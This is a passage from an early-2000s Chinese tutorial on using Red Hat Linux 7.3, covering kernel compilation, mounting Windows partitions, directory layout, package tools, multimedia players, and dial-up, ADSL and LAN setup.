进入目录 /usr/src/linux，执行“make dep”分析内核的配置并创建相应的相关树，决定需要编译的内容。

（6）执行完毕后，使用“make clean”命令来清除以前编译的残余部分，然后执行“make zImage”命令，开始编译内核（如果内核较大，可以使用make bzImage）。

（7）内核编译完毕后使用“make modules”命令来编译模块。

（8）接下来使用“make modules_install”安装模块，最后将zImage拷贝到/boot目录下，命令是“cp /usr/src/linux/arch/i386/boot/zImage /boot/zImage”。
至此编译内核的工作全部完成了，但是Linux还无法使用该内核，这是由于还没有将内核放入lilo。

（9）输入“vi /etc/lilo.conf”启动vi编辑/etc/lilo.conf文件，将原有的“image=/boot/vmlinuz-X.X.XX-X”语句改为“image=/boot/zImage”，如图37所示。
保存并退出vi编辑器后执行“lilo”命令，将新的lilo存入系统，内核就编译完成了，重新启动计算机后，就可以感受新的内核所带来的变化了。

#### （五）使用Windows分区

每一种类型的操作系统都会使用自己的文件系统，以方便操作系统的工作，比如Windows 9X支持的文件系统是FAT和FAT32，而Windows NT支持FAT和NTFS，最新的Windows 2000与Windows XP支持FAT、FAT32、Ntfs文件系统，而Linux操作系统也同样有自己的文件系统——Linux第二扩展文件系统即ext2（在最新的Linux中已经开始使用ext3文件系统）。不同的操作系统之间如果文件系统不兼容的话，是无法进行相互间的数据访问的。

大部分的用户都不会只安装一个Linux操作系统，一般都还有一个Windows操作系统，因此在日常的操作中，就出现了如何在Linux下读取Windows分区下文件的问题。

在Linux中为用户提供了“mount”方便用户将某个Windows分区挂装到Linux的文件系统中。

mount命令的格式如下。
mount –t type /dev/device /mnt/mountpoint
上述语法格式中，type表示Linux支持的文件系统，包括以下几种。

| 类型 | 说明 |
| :--- | :--- |
| **ext2** | Linux 的文件系统 |
| **iso9660** | CD-ROM光盘文件系统 |
| **msdos** | MS-DOS文件系统，软盘一般采用此种格式 |
| **vfat** | 包括Windows操作系统的两种文件系统，分别是Fat和Fat32 |
| **ntfs** | Windows NT、Windows 2000以及Windows XP所使用的文件系统 |

其中/dev/device为需要挂装的设备所在目录；/mnt/mountpoint表示挂装点。

由于Linux已经默认挂装了用户的软驱与光驱，因此用户可以直接在Linux下读取软盘与光盘的内容，因此笔者只向读者简介如何挂装vfat以及ntfs文件系统。

## 小技巧：在Linux下如何使用ISO文件

Linux系统是支持iso9660文件格式的，用户只要执行“mount –t iso9660 –o loop name.iso /IsoPath”命令就可以在/IsoPath目录中读取ISO文件的内容了。

### 1. 挂装Fat与Fat32分区

首先应当为挂装的Fat32分区在Linux文件系统下建立一个挂装点，一般都是在/mnt目录下建立一个子目录，命令是“mkdir /mnt/d”，操作的结果是在/mnt目录下建立了名为“d”的子目录，可以简单理解为，该子目录为Windows操作系统下的D驱动器。

接下来就可以使用“mount –t vfat /dev/device /mnt/mountpoint”命令了，用户如果不清楚需要挂装的Windows分区在Linux下的设备编号，可以执行“dmesg |more”命令来查看Linux的启动信息，在这里可以查找到Windows分区的信息。

从上图中可以看出，“had:hda1 hda2 hda3…”就是Windows分区，因此用户只要执行“mount –t vfat /dev/hda2 /mnt/d”就可以将hda2分区（也就是硬盘上的第2个分区）挂装到Linux的/mnt/d目录下了。

### 小技巧：如何准确找到硬盘上的分区——Linux表示分区的方法

Linux是通过字母和数字的组合来标识硬盘分区的，如“hda1”，其中，hd是一个部分，代表IDE硬盘，如果是SCSI硬盘的话，为sa；a代表IDE1口的主硬盘（2代表IDE1口从硬盘、3代表IDE2口主硬盘、4代表IDE2口从硬盘）；最后的数字代表在该设备上的分区顺序，前四个分区（主分区和扩展分区）用1-4表示，软逻辑分区从5开始。

### 2. 挂装NTFS分区

如果用户需要挂装NTFS分区的话，就比较复杂了，因为Linux的内核的默认配置是不支持NTFS分区，因此在挂装前必须重新编译内核使Linux能够支持NTFS分区的挂装。

前面已经提到了编译内核的具体方法，在这里就不再多讲了，只介绍一下编译内核中的一个步骤——配置内核使其支持NTFS。

在控制台下进入“/usr/src/linux”目录，执行“make xconfig”命令，启动内核编译界面，如图38所示。
单击右上角的【File systems】按钮，进入【文件系统】界面，在该界面中找到【NTFS file system support (read only)】选项，y 或者 m 以启动 Linux 对 NTFS 文件系统的支持，选择【y】系统会将对 NTFS 文件系统的支持编译进内核，选择【m】系统会将其编译成模块而不写入内核，用户可以根据需要进行选择，如图 39 所示。
完成了上述工作后，就可以编译内核了，编译成功后，用户就可以使用 “mount –t ntfs /dev/device /mnt/mountpoint” 命令挂装 NTFS 分区了，方法与挂装 FAT32 分区是完全一样的。

3. 卸载分区
如果用户希望从 Linux 中卸载已挂装的分区，可以使用 “umount” 命令。
“umount” 命令有两种用法，它们的作用是一样的，语法格式分别为 “umount /dev/device” 和 “umount /mnt/mountpoint”，具体的含义前面都有介绍，不再赘述。

4. 自动挂装 Windows 分区
用户肯定希望 Windows 分区能够在启动 Linux 后自动挂装到相应的挂装点，这样可以省去很多麻烦，在 Linux 中提供了这样一个文件，可以让用户设置在开机引导启动的时候自动挂装设备。
以根用户身份登录，使用 “vi /etc/fstab” 命令打开 /etc/fstab 文件。
在 fstab 文件中加入命令：“/dev/hda2 /mnt/d vfat defaults 0 2” 即可。

#### （六）理解 Linux 的常用目录

Linux 安装完毕后，根目录下有很多系统目录，用户应当对其进行充分了解，以方便日常的操作。各个目录及其所存放的文件内容详解如下。

- /bin 存放最常用命令
- /boot 启动 Linux 的核心文件
- /dev 设备文件
- /etc 存放各种配置文件
- /home 用户主目录
- /lib 系统最基本的动态链接共享库
- /mnt 一般是空的，用来临时挂装别的文件系统
- /proc 虚拟目录，是内存的映射
- /sbin 系统管理员命令存放目录
- /usr 最大的目录，存放应用程序和文件
- /usr/X11R6 X-Window 目录
- /usr/src Linux 源代码
- /usr/include 系统头文件
- /usr/lib 存放常用动态链接共享库、静态档案库
- /usr/bin、/usr/sbin 这是对 /bin、/sbin 的一个补充。

#### （七）关机和重新启动

在 X Window 下，Linux 的关机或重新启动和 Windows 类似，非常的简单，因此不再赘述。而在文本模式下，就需要执行相应的命令了。
关闭计算机以及重新启动计算机的命令怎么拼写呢？聪明的读者一定猜得八九不离十了，没错！就是 “shutdown” 与 “reboot” 命令。
用户只要按照下列的格式输入命令，就可以完成相应的操作了。

- “shutdown –r now” 重新启动计算机（也可以执行 “reboot” 命令）
- “shutdown –h now” 关闭计算机
- “shutdown –r –f now” 快速重新启动计算机
- “shutdown –r 19:30” 在 19:30 分重新启动计算机

### 五、Linux 的常用软件

在目前看来，Linux 之所以尚无法与 Windows 抗衡的一个主要原因就是应用程序的匮乏，如果用户日常的操作都有相应的程序来执行的话，Linux 无疑就是 Windows 的一个眼中钉了，现在，Linux 的应用程序已经越来越丰富，可以说用户在 Windows 下进行的操作，在 Linux 下同样也能够进行，只要 Linux

#### （一）Linux 的常用办公软件

Microsoft公司的Office办公软件现在可称为一手遮天，其出色的文字、表格等处理功能是任何一套Linux 应用程序无法比拟的，但是作为自由软件，Linux软件的发展前途也是任何人不敢小视的。下面我们就来看看这些软件吧。

### 1. StarOffice

StarOffice是Linux软件中最像Office的套件，它包括了以下组件。

- **StarWriter：** 这是一个全球化的文本处理应用程序，可以帮助用户编辑文档及网页、商业信件、提案报告、新闻等文字处理工作。
- **StarCalc：** 可以将客户的原始数据转变为平易近人的表格形式，帮助用户进一步了解并计算，在分析数据的同时还可以将数据转变为图表的形式，可以说是 Excel 的替代品。
- **StarImpress：** 可以将用户的灵感与构思落实于幻灯片中，也可以将幻灯片转换为网页可以说是集 PowerPoint 与 FrontPage 的功能于一身。
- **StarDraw：** 这是个很方便的绘图软件，能够帮助用户绘制需要的图形。另外，由于 StarDraw 是个独特的向量式绘图工具，所以绘制的图形档案小且可任意放大，仍可保持高度的品质，功能堪比 Flash。
- **StarTasks：** 这是用户的全功能信息总管，可以快速建立用户的时间和工作日程，可以用来检查工作项目，并追踪工作进度。
- **StarMail：** 电子邮件应用软件，可以排序、筛选、以附件传递档案、汇出邮件及新闻群组等多项功能，是帮助用户快速地互相传递信息或文件的好帮手。再加上 StarDiscussion 阅读新闻群组软件的辅助，让用户间沟通更容易、信息交流更顺畅；而且这两个好帮手都整合在 StarOffice Desktop 中，让用户可以轻松的切换操作。
- **StarBase：** 出色的数据库设计软件，有了它的帮助，用户的数据管理将会更加有效且快速。

StarOffice 的个人版是免费的，用户可以从 http://www.sun.com/staroffice 或其它网站下载并安装。其最新版本是 6.0（如图40所示），需要内核至少为2.2.13 版本的Linux才能运行。
用户在使用 StarOffice 时，不会感到任何陌生感，因为它和 Office 的操作风格很类似，这也大大减少了了用户的从 Office 转为使用 StarOffice 的适应时间。

### 2. WordPerfect

WordPerfect 是 Corel 公司出品的文字处理软件（如图41），即使是对 Corel 公司还不太了解的读者也一定听说过该公司的主打产品 CorelDraw。从名称上来看是“完美的 Word”，可以说矛头直指 Office 套件中的 Word， WordPerfect 作为 Corel 公司的字处理软件也曾风靡一时，不过随着 Microsoft Office 系列的推行与应用， WordPerfect 的市场逐渐萎缩，直到今天，Microsoft 的 Word 已占据了绝对优势，拥有超过 90% 的字处理软件市场，Corel 公司毅然将其转向了 Linux 平台，并取得了不错的成绩，现在 Corel 公司又推出了最新的 WordPerfect 2002，可以使用在 Linux 与 Windows 平台，它与 Word 的竞争一定会继续下去。

### 3. Applix Suite

Applix 是由 Applix 公司销售的一个跨平台的办公室套装软件（如图42），包括的组件有 Words（字处理）、Graphics（图形处理）、Spreadsheets（表格处理）、Presents（幻灯片编辑）、Mail（邮件程序）和 Builder（宏管理器）。
Applix Suite 也是一套与 Linux 结合的很紧密的 Office 套件，由于其功能较完备，因此同样可以取代 Microsoft 公司的 Office 所作的日常工作。

#### （二）Linux 的常用图像处理软件

### 1. GIMP


Linux 下的图像处理工具中，最有名的就要数 GIMP 了（如图43）。GIMP 是 GNU 图像处理程序 (GNU Image Manipulation Program) 的缩写，是一个完全免费的自由软件包，被人们称之为 Linux 下的 Photoshop，完全适用于各种图像的艺术处理，如照片润饰、图像合成及图形编制等，还可以成为一个简单的画图程序，转换各种图片格式，具有复原功能，GIMP 还可以随时的使用鼠标右键来呼叫所有的功能来修改（该功能虽然在 Windows 下很常见，但是在 Linux 下却很难得的），而且对系统的要求很低。

GIMP 具有以下主要功能（如图44）。


- (1) 全套的绘图工具，包括 Windows 下图像处理工具中常见的笔刷（"Brush"）、铅笔（"Pencil"）、喷枪（"AirBrush"）等。
- (2) 特有的平板式内存管理，这样就保证了能够处理的图像尺寸大小只受磁盘空间限制。
- (3) 支持所有常见的图像格式，如 gif、jpg、png、xpm、tiff、tga、mpeg、ps、pdf、pcx、bmp 等。
- (4) Undo (撤消) 及 Redo (恢复) 功能次数由磁盘空间决定，也就是说用户可以进行比 Windows 下更多的恢复及撤消操作。
- (5) 配备旋转、缩放、裁剪及反转等变形工具。
- (6) 与 Photoshop 一样，具有多种选择工具，如矩形、椭圆、自由、模糊、曲线及智能。
- (7) 具有强大的插件功能，用户可以随意增加从网上下载的文件格式及效果滤镜（这一点又与 Photoshop 不谋而合）。
- (8) 配有屏幕抓图工具——屏幕快照，更加方便了用户的工作。

如果用户对 GIMP 感兴趣的话，可以从 http://www.gimp.org 下载最新的 GIMP 版本以及 GIMP 的开发库、详细的软件使用手册等，目前的最新版本是 1.3.8。

### 2. XPaint


Xpaint 是 X11 所带的一个彩色图像编辑工具（如图45），与 Windows 中的画图程序功能相似，支持编辑各种图像格式，包括 PPM、XBM、TIFF 等。XPaint 的用户界面如图46所示，界面从功能上被分成两块区域，一块是工具区，用于选择当前绘画要进行的操作；另一块是绘图区，用于创建/修改图像。每个绘图窗口允许拥有自己的调色板和模式集。


XPaint 对显示模式有所依赖，在存储图像的时候将会把图像调整为当前的显示模式（例如，在灰色模式环境下打开一幅彩色图像，重新存盘时会被存储为灰色图像）。XPaint 的使用方法比较简单，相信有使用 Photoshop 基础的朋友们一学就会。

### 3. KPaint

KPaint 是 KDE 提供的一个与 XPaint 类似的绘图工具，其用户界面如图47所示。

KPaint 支持所有常见的图像文件格式，用户可以选择不同的笔、刷子或形状来绘制和修改图像，KPaint 的调色板的功能比较不错。由于 KPaint 与 XPaint 和 Windows 画图的使用方法差不多，这里就不再详细介绍了。

### 4. 电子眼


“电子眼”是一个在 GNOME 窗口环境下浏览图像的软件（如图48），它是随 GNOME 软件包一块分发的。也就是说，当用户安装好 GNOME 后，在主选单的图形栏上会自动出现电子眼的图标。

“电子眼”支持 BMP、TIF、GIF、XPM 等多种格式的图像文件，使用方法非常简单，用户可以一次调入多个文件进行预览。除了浏览功能外，电子眼也支持对图像进行一些基本的编辑操作，如对图像的色彩、大小、方位等等进行编辑，也可以分别对灰度、红色、绿色、蓝色等单色进行调节，还可以调节亮度、对比度以及色彩的纯度。另外，“电子眼”也可以对图像大小进行修改，还可以进行水平镜像、垂直镜像、旋转图像等操作。

### 5. GQview

GQview 是一个在 GNOME 窗口环境下浏览图像的软件，其功能及使用方法与电子眼类似，但更直接一些，通过图49用户可以一目了然的了解 GQview 的功能和使用方法。

### 6. 抓图工具 KSnapshot

KSnapshot 是一个功能简单的图像捕捉工具，只能捕获整个桌面或者单个窗口的图像，如图50所示，用户可以选择保存的图像类型以及延迟捕获的时间。


### 7. 三维模型设计软件 AC3D

AC3D 是一个多种平台下的三维模型设计软件，有 Windows、SGI、Linux 等多种版本，在各种平台下其文件格式是相互兼容的。

AC3D 的用户界面如图51所示，同大部分 Windows 下的 3D 设计软件类似。


#### （三） Linux的常用工具软件

### 1. 文件管理器

Linux 下也有类似 Windows 资源管理器的工具，这里列举两款进行介绍。

#### (1) X-Files文件管理器

X-Files 是一个运行在 X Window 下的文件管理器，界面漂亮，操作简单如图52所示，几乎所有的文件操作命令都能够支持。支持三键鼠标。


#### (2) UC 文件管理器 The UNIX Cockpit 3.0

UC 文件管理器也是一个 X Window 下的文件管理器，如图53所示，它的主要功能有能够以树形方式显示文件系统结构；菜单操作，还可以自定义菜单，同时支持键盘、鼠标操作，用鼠标执行命令；支持工作状态下的 shell 功能；可进行删除文件、恢复文件、解压缩等常规操作。


### 2. 最常用的 FTP 软件——gftp

gftp 是一个 X Window 下的 FTP 客户端软件，操作简单且直观，与 Windows 下的 CuteFtp、LeapFtp 在使用上没有任何区别，如图54所示。

### 3. 压缩程序

在 Linux 下最常用的压缩和解压缩命令是 ‘tar’ 和 ‘rpm’。


#### (1) tar

tar 是一款 Linux 下最经典的压缩命令，它有些类似于 DOS 下的 ARJ 命令，常用方法如下。

```
“tar cvf cfan.tar /home/Cfan” 或 “tar cvfz cfan.tar.gz /home/Cfan” 压缩一组文件为tar.gz后缀。
“tar xvf cfan.tar” 或 “tar xvfz cfan.tar.gz” 解压缩后缀为tar.gz的文件。
“tar xvfz backup.tar.Z” 解开tar.Z的文件。
```

#### (2) rpm

rpm 是 Redhat Package Manager 的缩写，是由 Redhat 公司开发的软件包和管理程序，与 tar 相比具有以下优点：可以对单个软件包进行升级，并且保留用户原先的配置；可以针对整个软件包的数据或是某个特定的文件进行查询；可以进行系统校验等。

常见的使用方法如下。

- “rpm -ivh filename.rpm” 安装一个包
- “rpm -Uvh filename.rpm” 升级一个包
- “rpm -e filename” 卸载一个包
- “rpm -q rpmname” 查询一个包是否被安装
- “rpm -qi rpmname” 查询被安装的包的信息
- “rpm -ql filename.rpm” 显示软件包中包含的文件
- “rpm -qa” 列出所有已安装的软件包

### 小技巧：其它文件格式的压缩与解压缩

- ①如何解开.tgz文件：“gunzip cfan.tgz”
- ②如何压缩和解压缩.bz2 的包：“bzip2 /home/Cfan/computer.txt”（压缩文件 computer.txt 成 computer.txt.bz2）；“bunzip2 /home/Cfan/computer.txt.bz2”（解压缩 computer.txt.bz2 文件）。

#### （四） Linux 应用软件的安装

Linux 下软件的安装程序主要有两种形式。第一种历史比较悠久，安装的文件名一般为“tar.gz”后缀；另一种安装文件名以“.rpm”为后缀，第一种方式发行的软件多为源码形式；第二种方式则是直接以二进制形式发送。

由于在前面介绍“rpm”的时候已经提到了如何使用“rpm”安装软件，因此在这里只介绍如何安装第一种形式的软件。

首先，将安装文件拷贝至用户的目录中，解压该文件（命令为“tar xvzf filename.tar.gz”），然后安装文件会按照相应的路径，解压缩在当前目录下（可以使用“ls”命令查看解压缩后的文件），通常在解压缩后的文件中，都会有名为“Install”的文件，注意这并不是安装文件（与 Windows 不同），这只是该软件包的安装说明；用户应当使用一个名为“configure”的可执行脚本程序，它是用于检查系统是否有编译时所需的库，以及库的版本是否满足编译的需要等安装所需要的系统信息，从而为随后的编译工作做准备，执行“configure”命令后，会生成用于编译的 MakeFile 文件，这时，就可以开始编译了，方法是执行“make”命令；成功编译后，“make install”命令就可以开始安装程序了；最后安装完毕，用户应当清除编译过程中产生的临时文件和配置过程中产生的文件，按照先后顺序执行“make clean”和“make distclean”命令即可。

### 六、 Linux 下的多媒体娱乐

在 Linux 下用户除了可以进行一般的文本编辑、图像编辑等工作外，还可以与在 Windows 下一样，进行全方位的多媒体娱乐享受。

#### （一）如何使不被识别的声卡发声

Linux 下各种硬件的驱动没有 Windows，特别是 Windows 2000 和 Windows XP 那么齐全，如果用户的声卡型号 Linux 系统内核不能直接支持，也就是说不在声卡的列表内的话，自然无法正常发声，普通声卡的 Linux 驱动程序几乎是找不到的（恐怕只有像创新 SB Live 系列这样的顶级声卡才能够找到 Linux 的驱动程序），因此笔者奉劝用户不必花太多的时间在寻找驱动程序上，可以另辟蹊径——使用 OSS，OSS 是“OpenSoundSystem”（开放式声音系统）的简称，主要用途就是解决 UNIX 类型系统的声卡驱动问题，而且 Linux 内核支持的声卡 OSS 也同样可以使用。

#### 1. 下载 OSS

最新的 OSS 版本可以从 http://www.opensound.com 下载。

需要提醒用户注意的是，一定要下载和用户的系统内核相同版本的 OSS，还要注意版本的区别即 SMP 版本还是 UP 版本，SMP 版是专门给多处理器用户使用的，UP 版是单处理器用户使用，也就是说一般的用户应当下载 UP 版。

#### 2. 解压缩

在命令行下输入下面的命令解压缩 oss 压缩包。

```
tar zxvf oss397e-linux-v2x.tar.gz
```

#### 3. 安装

- (1) 解压缩后运行下面的命令安装：oss-install
- (2) 运行安装程序后，OSS 检查系统中是否已经安装并加载其他的声卡驱动程序，如果用户的系统已经安装了其他声卡驱动，可以选择 y 在内核模块配置文件中注释掉相对应的行。
- (3) 下一步是 OSS 的版权声明，声明了 OSS 并不是一个自由软件。
- (4) 选择【Accept】并确认，下一步是 OSS 发行版本的信息。
- (5) 选择确定后，开始 OSS 程序的具体安装，首先要求用户确认或者修改程序的安装路径，一般情况下，推荐使用默认的安装路径，如图 55 所示。


- (6) 确定程序的安装路径后，就开始复制安装程序文件和编译，这个过程可能需要几分钟，根据用户使用的计算机的速度不同，具体的时间也会不一样。
- (7) 编译完成后，下一步要求用户选择相应的声卡类型，笔者的声卡是 Ess 的，如图 56 所示。


- (8) 接下来要求用户确认或者修改声卡所使用的 I/O PORT，为确保声卡工作正常，必须使用正确的 I/O PORT，推荐用户使用系统缺省的 I/O PORT。
- (9) 由于 OSS 不是自由软件，所以不是免费使用的，需要安装 LICENSE，确认后最后一步就是安装 LICENSE，在图 57 中输入 LICENSE 文件的路径，这样 OSS 就安装完成了。


#### 4. OSS 的使用

在安装后的目录下执行 “soundon” 命令可以启动 OSS，然后用户就可以在 linux 下听到美妙的声音了。

```
bash
root@linux# /usr/local/bin/soundon
OSS driver (sndshield) is already loaded
Use soundoff to unload it and try again.
```

如果需要关闭 OSS，只要执行 “soundoff” 即可。
通过以上的方法，即使用户的声卡 Linux 无法识别，你也能够让 Linux 发出声音了。声卡安装完毕后，接下来，我们来了解一下 Linux 的媒体工具软件。

#### （二）播放 CD

每一个版本的 Linux 都有 CD 播放器，如 Redhat Linux 7.3 就捆绑了 CD 播放工具 KsCD（如图 58），KsCD 是一款简单易用的 CD 播放器，和 Windows 系统下的 CD 播放器类似，相信读者们都不会陌生，界面上的大部分按钮都和实际的 CD 机或者音响一样，而且当用户将鼠标停留在按钮上一段时间后，会出现该按钮的提示信息。


#### （三）播放 MP3

MP3 可以说在音频领域里独步天下，在 Linux 中自然也不会放弃对 MP3 的支持，在 Windows 系统下，播放 MP3 最流行的工具应该算 Winamp 了，那么 linux 下呢？Redhat Linux 7.3 附带了多种 MP3 播放工具，包括 xmms，noatun 等，其中 xmms 的用法与 Winamp 基本相同，因此在本专题中笔者只介绍一下常用的 noatun 及其使用方法。

- 1. 从【开始】菜单的【多媒体】中打开【noatun】程序，其主界面如图 59 所示。在界面中，只要按下相应的按钮即可完成播放、快进、添加文件等工作。


- 2. 接下来，打开设置 Noatun 的配置菜单，如图 60 所示。用户可以根据实际需要对各个选项进行相应的配置。


- 3. 如果用户觉得 noatun 的操作不熟悉的话，可以在图 60 中选择【插件】选项，然后在【界面】设置中选择使用 Winamp 界面效果，确定后 noatun 的界面将变成大家熟悉的 Winamp 界面，如图 61 所示。当然，其操作方法也和 Winamp 一样，就不必多说了吧。


#### （四）播放 RM

MP3 在音频界的地位恐怕只有 RM 在视频界的地位可以匹敌（虽然最近收到了 wmv 的强力挑战），遗憾的是大部分的 Linux 都没有附带播放 RM 流媒体格式文件的工具，但是，这并不是说，在 Linux 下无法播放 RM 文件了，用户可以使用 Realplayer 的 Linux 版本。

#### 1. 下载 Realplayer

读者可以从 realplayer 的官方网站 http://www.real.com 下载 realplayer for linux 的 RPM 包，笔者下载的是 rp8_linux20_libc6_i386_cs2.rpm。

#### 2. 安装 Realplayer

```
rpm -ivh rp8_linux20_libc6_i386_cs2.rpm
```

Linux 会启动与 Windows 下几乎相同的安装界面，在这个很熟悉的界面里，完成安装应该是非常轻松的。

#### 3. 运行 Realplayer

从【开始】菜单的【多媒体】中打开【Realplayer】，启动 Realplayer 播放器，界面如图 62 所示，其风格与 Windows 下的大同小异。


怎么样，界面非常熟悉吧，还等什么，赶快安装去吧。

#### （五）安装多媒体影音中心——强大的 MPlayer

在 Windows 下，用户不会每播放一种格式的文件就是使用一种播放器，一般都习惯使用一款能够支持多种多媒体文件的播放器如超级解霸、Windows Media Player 等。对于 Linux，笔者强烈向大家推荐使用功能强大的多媒体播放软件 MPlayer 作为家庭影音中心。

#### 1. MPlayer 介绍

MPlayer 具有强大的多媒体播放能力，支持 MPEG、VOB、AVI、VIVO、ASF/WMV、QT/MOV、FLI、RM、NuppelVideo、yuv4mpeg、FILM、RoQ 等文件，可以观看 VCD、SVCD、DVD、3ivx 和 Divx，最新版本的 MPlayer 还可以播放 WMA 格式的音乐文件，几乎可以说是无所不能的。

MPlayer 基本上基于 GPL 协议开发的，但也有一些非 GPL 的代码，依据法律，MPlayer 不能够做成 rpm 包发布，所以用户只能下载 MPlayer 的源代码进行手工编译和安装。

> > 小知识：关于 GPL：GPL (General Public License)。
> > 简而言之，就是所有 GPL 协议下的自由软件都遵循非版权原则，也就是说软件允许用户自由拷贝、修改和销售，对自由软件源代码的任何修改向所有用户公开。

#### 2. 安装 MPlayer

##### (1) 下载 MPlayer 源代码

MPlayer 的源代码是公开的，读者可以从 http://www.mplayerhq.hu/homepage/ 下载到 MPlayer 的最新版本，笔者下载的版本压缩包是 MPlayer-0.90pre8.tar.bz2，注意还要下载 skins 里的任意一个 skin 包（这样才能使用图形界面）。

##### (2) 安装 Divx 支持程序

Divx 是目前最流行的视频采用 MPEG-4 压缩，音频采用 MP3 压缩的崭新影音档格式，一经推出就红遍了大江南北，可以说影音播放软件如果不支持 Divx 的话势必要被用户抛弃。

- 1. 从 http://divx.com 下载一个 divxforlinux 的最新版本，输入下面的命令解压缩该软件包：tar zxvf divx4linux501-20020418.tgz
- 2. 进入解压缩后的目录，输入下面的命令即可安装 divxforlinux：./install.sh

##### (3) 安装 codecs

从 http://www.mplayerhq.hu/homepage 下载 win32codecs-0.60-r1 的压缩包文件，并解压缩到 /usr/lib/win32。

##### (4) 编译并安装 MPlayer

做好了前面的准备工作后，下面就可以进入 MPlayer 的源代码目录进行编译和安装工作了，依次输入下列命令。

```
configure --gui
```

如果出现 gcc 版本错误（"bad version"），请使用 "configure --gui --disable-gcc-checking" 命令。

```
make
make install
```

最后，将下载的 skin 包解压到 /usr/local/share/mplayer/Skin 目录下，运行 "mplayer -gui" 命令，MPlayer 的主界面就会出现了，如图 63 所示。

#### 3. 运行 MPlayer

如果用户没有使用 skin 包的话，MPlayer 就没有用户界面，可以使用类似于下面的命令来播放多媒体文件。

```
/usr/local/bin/mplayer ./movie/test.avi
```

运行 MPlayer 时，控制台窗口会显示正在播放的多媒体的文件的信息，包括文件类型、文件大小、文件的编码格式、文件播放的帧数等。

MPlayer播放文件时可以带丰富的参数，用来控制播放过程，用户可以查看 MPlayer 的相关帮助信息，这里就不再一一介绍了。

### 七、Linux 的网络设置和管理

与Windows一样，Linux 的网络设置与管理也是非常方便的，甚至可以说在很多方面如防火墙等方面的功能大大地超越了Windows。下面，我们从Linux 的网络基本配置开始，对Linux 下的网络作一个了解。

#### （一）拨号上网

1.  Linux 下用什么工具拨号
    在大多数的Linux中都为用户提供了kppp工具，该工具是一个十分好用的 PPP 和 Internet 连接工具。下面将介绍如何使用 kppp 进行拨号。

2.  如何拨号
    kppp是Redhat Linux 7.3附带的一个组件，安装系统的时候可以进行选择安装。如果安装了kppp，接下来就可以设置kppp并拨号上网了。
    (1) 启动 kppp
    kppp 的启动方式有下面两种。
    ① 通过KDE的开始菜单|Internet|kppp拨号工具启动。
    ② 通过在命令行下输入 kppp& 启动。图64所示为起动 kppp 后的界面。

    (2) 设置 kppp
    在图64所示界面上单击【设置】按钮，弹出图65所示的拨号设置对话框，设置选项包括拨号【账户】、【设备】、【调制解调器】、【图表】、【其它】和【关于】六个选项卡，下面分别进行介绍。

    【设备】选项卡：图66所示为设备配置窗口，如果用户的系统有多个调制解调器设备，可以在该窗口中选择拨号设备。

    提示：读者可以把连接速度项设置为大于实际设备的速度，这样能充分发挥设备的潜能，达到最快的速度，推荐设置为 460800。

    【调制解调器】选项卡：图67所示为调制解调器的设置对话框，在该窗口中，可以设置下面几个选项。
    “忙等待”用来设置当拨号线路繁忙时的等待时间，单位为秒；“调制解调器音量”设置调制解调器的音量大小。
    在图67的窗口的下面有三个按钮，分别是【调制解调器命令】、【查询调制解调器】和【终端】。单击【调制解调器命令】按钮，弹出图68所示的窗口，在该窗口中，可以设置调制解调器的一些高级参数，一般用户不需要设置。单击【查询调制解调器】，可以搜索系统中的调制解调器设备。单击【终端】可以打开kppp微型终端。

    【其它】选项卡：图69所示为kppp的其它设置窗口，在该窗口中，包含了下面这些设置选项。
    “pppd版本”显示pppd版本号；Redhat Linux 7.3的附带的pppd版本为2.4.1；“pppd超时”可设置拨号超时时间；“在连接时嵌入面板中执行”设置当连接建立后，kppp最小化到面板中；“断线后自动重拨”设置调制解调器在断线后自动开始重拨；“在标题上显示时间”设置在kppp窗口的标题上显示当前的系统时间；“在X-服务器关闭时端口连接”设置当用户关闭X Window时，kppp自动断开连接；“在断开连接时退出”设置断开连接后自动退出kppp拨号工具。

    【关于】选项卡：该窗口显示了kppp的版本信息和版权信息，如图70所示。

    【账号】选项卡：图65所示为kppp的账户管理界面，在该窗口中，用户可以添加、修改或者删除拨号帐户。单击【新的】按钮，弹出图71所示的对话框。
    单击【Wizard】按钮开始创建一个新的拨号帐户，弹出如图72所示窗口。再单击【下一步】，选择拨号所在的地区，如图73所示。由于笔者所处的国家不在该列表中，所以不能通过这种方式建立拨号帐户，单击【取消】按钮退出。在图71所示对话框中选择【对话设置】，弹出图74所示窗口，下面依次介绍窗口中6个标签的含义。
    【DNS】选项卡中可以设置ISP的域名和DNS服务器的IP地址。
    【登录脚本】选项卡和【执行】选项卡中用户还可以根据自己的需要分别设置登录脚本和连接后运行的脚本程序。
    【记账】选项卡中用户可以设置记录拨号的流量，包括流入、流出字节。

    (3) 拨号上网
    设置好以上的参数后，就建立了一个新的拨号帐户，打开新建的连接，然后在如图75所示的对话框中，输入拨号用户名和密码后就可以建立拨号连接了。

#### （二）ADSL上网

随着Internet的迅速发展，越来越多的用户已经从拨号上网升级到了ISDN、ADSL等高速上网的方式，这一节中笔者向读者介绍一下如何在Redhat Linux 7.3下设置ADSL上网。

1.  添加 ADSL 接口
    在KDE桌面系统下，可以很方便的使用控制面板来添加ADSL设备。
    (1) 从KDE菜单的系统项中打开Redhat Linux的控制面板，打开网络设置面板，如图76所示。
    【拨号】选项卡中可以进行以下的设定：“连接名字”设置拨号帐户的标识；“电话号码”设置ISP的拨号电话；“身份验证”设置拨号的身份验证方式，一般选择PAP/CHAP。
    【IP】选项卡是设置IP的界面，一般情况下ISP都提供了自动分配IP的服务，用户不需要自己设置。
    【网关】选项卡中可以为拨号网络的设置网关。
    (2) 单击【Add...】按钮，系统弹出图77所示的添加网络接口向导。
    (3) 选择 xDSL connection 项，并单击【Next】按钮，并设置 ADSL，如图78所示。
    在这个界面中，可以进行以下设置：“Ethernet Device”选择连接到的ADSL适配器上的以太网卡；“Provider Name”设置ADSL提供商，也是网络接口的标识；“Login Name”设置用户的ADSL登录用户名；“Password”设置用户的登录密码。
    (4) 设置好必需的参数后，单击【Next】按钮，完成 ADSL 设备的添加。

2.  启用ADSL设备
    添加了ADSL设备并设置好ADSL参数后，回到图79所示的界面中，选中新添加的ADSL接口，然后点击右边的【Active】按钮就可以启用 ADSL 设备了。

#### （三）配置局域网

Redhat Linux 7.3提供了方便简洁的局域网设置工具，用户不再需要去记命令行的那些繁琐的命令和参数，就可以轻轻松松就配置好局域网。下面就来了解一下这方面的知识。

1.  添加以太网接口
    (1) 从控制面板中打开图76所示的网络配置面板，选择【Hardware】选项卡，其界面如图79所示。
    (2) 单击【Add...】按钮添加一个新的以太网接口并单击【OK】按钮，如图80所示。
    (3) 接下来进入如图81所示的对话框，在这里可以设置所添加接口的网络适配器的具体参数。
